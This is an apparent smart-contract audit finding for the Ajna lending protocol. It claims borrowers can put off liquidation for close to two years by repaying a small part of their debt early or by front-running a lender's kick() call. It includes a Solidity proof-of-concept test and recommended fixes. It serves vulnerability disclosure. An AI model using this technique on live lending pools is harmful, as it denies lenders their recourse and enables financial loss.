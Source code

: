 CRYP70

high

# Borrowers are able to protect themselves from liquidation by dosing the kick function to extend their loan by over 10 times

## Summary
Users are able to use the `drawDebt()` function to supply collateral tokens and increase debt by withdrawing quote tokens. When a borrower is unable to repay their debt, lenders can use the `kick()` to send a borrower into liquidation, which their assets will be sent off to auction however, if borrowers foresee that they are being liquidated, can prevent this and extend their loan by more than 10 times the usual duration. 

## Vulnerability Detail
Borrowers can exploit this issue by adding a small portion on top of the loan they intend to borrow either pay that portion back immediately or if they see in the mempool that they are about to be liquidated, front-run the liquidator and repay that portion back then. If they were to take out a loan without the extra portion, lenders would be allowed to liquidate them in a reasonable amount of time. For example, Charlie intends to borrow 1.48 WETH for 2400 dai but deposits 3200 dai for 2 WETH. Charlie sees he is about to be liquidated by Bob after around 50 days - he exploits this issue by depositing a small portion of his loan back into the pool and extends the time of by a very large amount.

*Proof of Concept:*
```solidity
    function testLiquidationProtection() public {
        
        // ============== Setup Scenario ==============
        uint256 interestRateOne = 0.05 * 10**18;  // Standard interest rate used in testing
        address poolThreeAddr = erc20PoolFactory.deployPool(address(dai), address(weth), interestRateOne);
        ERC20Pool poolThree = ERC20Pool(address(poolThreeAddr));
        vm.label(poolThreeAddr, "DAI / WETH Pool Three");

        // Setup scenario and send liquidity providers some tokens
        vm.startPrank(address(daiDoner));
        dai.transfer(address(charlie), 3200 ether);
        vm.stopPrank();

        vm.startPrank(address(wethDoner));
        weth.transfer(address(bob), 1000 ether);
        vm.stopPrank();

        // ==============================================


        // Note At the time (24/01/2023) of writing ETH is currently 1,625.02 DAI,
        // so this would be a popular bucket to deposit in.

        // Start Scenario
        uint256 fenwick = 5635;

        vm.startPrank(address(alice));
        weth.deposit{value: 2 ether}();
        weth.approve(address(poolThree), 2.226 ether);
        poolThree.addQuoteToken(2 ether, fenwick); 
        vm.stopPrank();

        vm.startPrank(address(bob));
        weth.deposit{value: 9 ether}();
        weth.approve(address(poolThree), 9 ether);
        poolThree.addQuoteToken(9 ether, fenwick); 
        vm.stopPrank();


        // ======================== start testing ========================


        vm.startPrank(address(charlie)); 
        dai.approve(address(poolThree), 3200 ether);
        poolThree.drawDebt(address(charlie), 2 ether, fenwick, 3200 ether);

        weth.deposit{value: 0.5 ether}();
        weth.approve(address(poolThree), 2.5 ether);
        poolThree.repayDebt(address(charlie), 0.625 ether, 800 ether); // portion of the loan is repaid immediately to deny liquidity for an over extended period of time
        vm.stopPrank();


        vm.warp(block.timestamp + 625 days);

        // This amount of time allows bob to perform liquidation if a portion of the loan was never paid
        // vm.warp(block.timestamp + 50 days); 

        vm.startPrank(address(bob));
        weth.deposit{value: 0.5 ether}();
        weth.approve(address(poolThree), 0.5 ether);
        poolThree.kick(address(charlie)); // <----- reverts "BorrowerOK()"
        vm.stopPrank();


    }
```


## Impact
Instead of being able to liquidate Charlie after approximately 50 days (loan amount minus the small portion), Bob is denied the action to liquidate charlie until a duration of nearly 2 years. 

## Code Snippet
- https://github.com/sherlock-audit/2023-01-ajna/blob/main/contracts/src/libraries/external/Auctions.sol#L779-L791

## Tool used

Manual Review

## Recommendation
It is not exactly clear how the duration of the borrowers loan term works however, I believe this is a side effect in the way a borrowers upfront collateral is considered when determining if a user is collateralised when attempting to call the `kick()` function. I recommend a couple of ways that this issue can be resolved - A. If the user were to payoff 25% of their debt, that their debt is only extended by 25% of the original duration. For example, in the above scenario, the lender should be allowed to send the user into liquidation after 62.5 days instead of over 625 days. B. The users loan term duration stands and the full amount should be paid off by the end of the duration of the loan. 
